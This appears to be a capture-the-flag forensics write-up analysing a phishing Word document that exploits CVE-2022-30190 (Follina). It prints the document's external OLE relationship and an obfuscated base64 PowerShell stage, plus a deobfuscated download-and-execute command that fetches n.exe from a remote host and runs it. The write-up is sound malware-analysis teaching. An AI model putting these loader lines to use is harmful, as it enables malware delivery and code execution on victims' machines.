




# HTB - Diagnostic
> [Hackthebox](https://app.hackthebox.com) > Labs > [Challenges](https://app.hackthebox.com/challenges) > Forensics

# Challenge Description
Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

# ATT&CK Techniques discovered
* [Mitre T1566.002 - Phishing: Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
* [Mitre T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
* [Mitre T1059.001 - Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
* [Mitre T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

# Step by Step

### 1.- Understand the problem
The first step into this is to carefully read the description of the problem. This is also applicable to incident response! Always, **ALWAYS** listen to the people that were harmed or ther were victim with the cyberattack; they may provide crucial information about what might have happened.

**Files available:**
* **URL:** diagnostic.htb/layoffs.doc

Thanks to the challenge description, we realize that there was a phishing campaign. The vector was a hyperlink to a file containing a supposedly "company layoffs" file. Usually, attackers use this strategy to get the attention of their victims. An email with a doc file containing privilege information? that's bait.


The description also talks about that the attacker server does not respond to DNS anymore, so `diagnostic.htb` will not directly work. But since this is a HTB challenge we will use the IP address of the generated instance.

So, let's get into it.

### 2.- Exploring the bait
Since this challenge needs a live machine to work; we start the HackTheBox instance (no VPN needed for this one). After this, we get the IP of the attacker machine.



For this writeup, we will use `206.189.26.97:32663` as the attacker machine IP address. Let us download the file:

```bash
curl -k http://206.189.26.97:32663/layoffs.doc
```

> **IMPORTANT:** Always work with isolated Virtual Machines! If you are going to download files, even from "trusted sources". I know this is a HackTheBox challenge, nonetheless it is always good to be careful.

We have a `doc file`, this immediately calls something like a [Macros Malware](https://docs.microsoft.com/en-us/microsoft-365/security/intelligence/macro-malware?view=o365-worldwide) or an [OLE Exploit](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/an-inside-look-into-microsoft-rich-text-format-and-ole-exploits/). You might be curious about what this file might contain, and one thing that may come into your mind is open it into Microsoft Word. As a rule of thumb, in any forensic or threat hunting investigation always check for metadata, signatures and other tools before doing so.

### 3.- layouts.doc file properties

Here, two tools come in handy when we are dealing with files: `file` and `sha256sum`. The first will read the [magic bytes](https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/#:~:text=This%20is%20what's%20often%20called,is%20of%20the%20proper%20format.) of a file in order to detect which type of file is. Remember that the extesion of a file is just a convention, it does not decide what type of file is.

The second one will generate the SHA256 Hash signature of the file, this helps to search for similar signatures that may be uploaded to several malware sites. 

> **IMPORTANT:** NEVER upload the file to VirusTotal, Any.Run or other online malware sites, just look for the hash. Attackers always check this site in order to detect if their malware are under investigation or not. So do not upload it.

Let's see what we have here:
command | result
--- | ---
name | layoffs.doc
file | diagnostic.doc: Zip archive data, at least v2.0 to extract, compression method=store
sha256sum | e7f6d0b62bc3453c42e855988400d14d71596aeb43ce2ad55bd3aee3ac813bea
VirusTotal Search | https://www.virustotal.com/gui/file/e7f6d0b62bc3453c42e855988400d14d71596aeb43ce2ad55bd3aee3ac813bea (found)

Here we can see a couple of things that are interesting. The command `file` detected it as a `Zip archive data`; I'll leave [this entry](https://www.quora.com/Why-are-Word-docx-files-actually-zip-files) in order to understand why Doc files are actually containers. The important part is that we can Unzip it and get its contents. The Virus Total search marked the file as a Malware (glad that we didn't open it with Microsoft Word on your computer right?).

So, we are dealing with a doc malware. We can also check in VirusTotal that it marks it as an `Exploit.CVE-2022-30190.Gen.1`. Let us save that for later.

```bash
unzip layoffs.doc
```

We get a bunch of files; these are actually a lot of XML that contain the DOC data.

```bash
drwxrwxrwx 1 root root     0 Jul  8 21:53  ./
drwxrwxrwx 1 root root     0 Jul  8 22:38  ../
-rwxrwxrwx 1 root root  1312 Jun  1 07:19 '[Content_Types].xml'*
-rwxrwxrwx 1 root root 10707 Jul  8 21:13  diagnostic.doc*
drwxrwxrwx 1 root root     0 Jun  1 07:19  docProps/
drwxrwxrwx 1 root root     0 Jun  1 07:19  _rels/
drwxrwxrwx 1 root root     0 Jul  8 21:22  word/
```

After searching through all those files there was one that caught my eye: `_rels/documents.xml.rels`. This file has the mission of putting all together on a DOC file, all the relationships.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/>
    <Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/>
    <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/>
    <Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://diagnostic.htb:30389/223_index_style_fancy.html!" TargetMode="External"/>
    <Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/>
    <Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/>
</Relationships>
```

The document is composed of six different objects. One of them is an [OLE Object](https://support.ptc.com/help/creo/creo_pma/usascii/index.html#page/detail/About_OLE_Objects.html) (not going into detail here). The interesting thing about it is that the `Target=` location of this file is not within the files of the DOC, but on the internet.

### 4.- What's behind the OLE Object?
So, we have an OLE Object in the attacker server, let us see what is inside.

```bash
curl -k "http://206.189.26.97:32663/223_index_style_fancy.html" > malware.txt
```

If we check ``malware.txt`` contents we can see that it looks like a Powershell malware.



If we check the first line and look info on internet, we quickly realize that we are behind an exploit that uses MS-MSDT as vector.



Check this [gist](https://gist.github.com/tothi/66290a42896a97920055e50128c9f040) for more details.

Let us decode the base64 part of this exploit to see what we have in our hands.

### 5.- Decoding powershell obfuscation
If you read the gist the I put on the last block, you will realize that the `payload` it is in the `IT_BrowseForFile=` argument. In our file we have a Base64 string. The base64 is quite big, so I'm not going to go into details about it, I'll leave the reader to do their own research.

```
$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String(   BASE 64 STRING   )
```

We have some degree of obfuscation here; this is done by attackers in order to make it difficult to researchers or responders to act quickly. it is not impossible to deobfuscate, but it takes some time and, in this case, Powershell knowledge to do it efficiently and safe. Why safe? Because one misstep and you might end executing the payload on the machine that you use for your forensic, and we do not want that.

> **IMPORTANT:** Always know what you are doing while doing deobfuscation!

I will not go into heavy details about the steps to deobfuscate here, again, I'll leave that to the reader to do some [research](https://medium.com/mii-cybersec/malicious-powershell-deobfuscation-using-cyberchef-dfb9faff29f).

After some work and playing with Powershell, we find that the script that the exploit wanted to execute is the following:

```Powershell
$(Invoke-Expression(
    '[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo='+[char]34+'))'
    )
```

Or, the deobfuscated version:

```Powershell
$( 
    Invoke-Expression (
        "HTB{REDACTED}.exe" &
        Invoke-WebRequest "https://automation.diagnostic.htb/2/n.exe" -OutFile "C:\Windows\Tasks\$file" &
        C:\\Windows\\Tasks\\$file
    )
 )
```

w00t! we got the flag! `HTB{REDACTED}`

For the eager reader that wants to know what is going on, the script creates an HTTP request to the URL `"https://automation.diagnostic.htb/2/n.exe"` and downloads a file named `n.exe`, this file is saved in the `C:\Windows\Tasks\` folder as an executable file with the flag name on it `HTB{REDACTED}`. That folder is related with the Scheduling tasks. After saving the file tries to execute it.

# Wrapping up & Comments
We are facing here a Phishing Attack ([Mitre T1566.002](https://attack.mitre.org/techniques/T1566/002/)) that uses a Web Link as the attacking vector. This link downloads a Word file (layoffs.doc) that with some Social Engineering, an un-aware user might try to open ([Mitre T1204.002](https://attack.mitre.org/techniques/T1204/002/)). The file loads an external OLE Object located on the attacker machine and tries to run an obfuscated Powershell script ([Mitre T1059.001](https://attack.mitre.org/techniques/T1059/001/)). The script downloads another file not available during the challenge so it is hard to know what it was, but I looked like it wanted to get persistence using Windows Schedule Tasks ([Mitre T1053.005](https://attack.mitre.org/techniques/T1053/005/)).



**Takeaways**
* During forensic investigations (and playing HackTheBox) **always** use isolated virtual machines! Dealing with malware is serious business.
* Never upload malware samples to public websites, attackers are watching if their malware hashes appear.
* Understand how binary files work, and how you can manage them
* Never open/execute a binary before full static exploration!
* Learn powershell and bash scripting, it helps a lot to understand what is going on.
* Enjoy what you are doing!

Happy hunting